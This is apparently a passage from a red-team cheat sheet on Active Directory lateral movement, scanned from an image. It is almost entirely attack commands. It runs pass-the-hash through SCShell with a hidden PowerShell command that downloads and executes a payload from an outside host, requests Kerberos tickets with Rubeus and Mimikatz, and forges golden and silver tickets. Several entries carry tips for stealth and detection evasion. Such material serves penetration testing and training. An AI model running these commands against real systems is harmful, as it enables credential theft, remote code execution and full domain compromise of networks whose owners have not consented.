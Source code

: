     //**PTH w/ SCShell.py:
        python scshell.py MEGACORP/snovvcrash@192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -service-name lfsvc
        SCShell>C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')

#### Other Domain Methods

    **wmiexec.py w/ creds or hash
    **psexec.py w/ creds or hash

    //Overpass-the-hash:
        //Request a full TGT on behalf of the target user and pass it into the current session
        //*useful in networks where NTLM protocol is disabled and only Kerberos is allowed
        # NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
            .\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
        # More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)
            .\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt
        # Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
            .\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
        # Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
            sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe
        //Mimikatz (riskier):
            sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe
            //or:  Invoke-Mimikatz -Command '"sekurlsa::pth /user:UserName /domain:DomainName /ntlm:HASH /run:powershell.exe"'
            klist
            Invoke-Command -computername <remoteMachine.domain> -ScriptBlock {whoami;hostname}
        //Rubeus:
            \\192.168.49.121\visualstudio\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /domain:dollarcorp.moneycorp.local /user:svcadmin /rc4:b38ff50264b74508085d82c69794a4d8 /ptt

    # Golden ticket (domain admin, w/ some ticket properties to avoid detection)
    kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

    # Silver ticket for a specific SPN with a compromised service / machine account
    kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
